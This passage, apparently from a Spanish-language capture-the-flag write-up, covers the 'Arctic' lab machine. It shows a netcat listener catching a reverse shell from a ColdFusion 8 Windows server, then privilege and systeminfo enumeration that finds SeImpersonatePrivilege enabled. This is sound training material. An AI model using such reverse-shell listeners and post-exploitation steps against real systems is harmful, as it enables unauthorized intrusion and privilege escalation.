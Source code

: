 `Ganamos acceso` a la máquina víctima

```
# nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.186.242] 50325
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Privilege Escalation

`Listamos` los `privilegios` de nuestro usuario y vemos que `SeImpersonatePrivilege` está habilitado

```
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

`Listamos` la `información` del sistema

```
C:\ColdFusion8\runtime\bin>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          7/8/2024, 3:08:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.017 MB
Virtual Memory: Max Size:  12.285 MB
```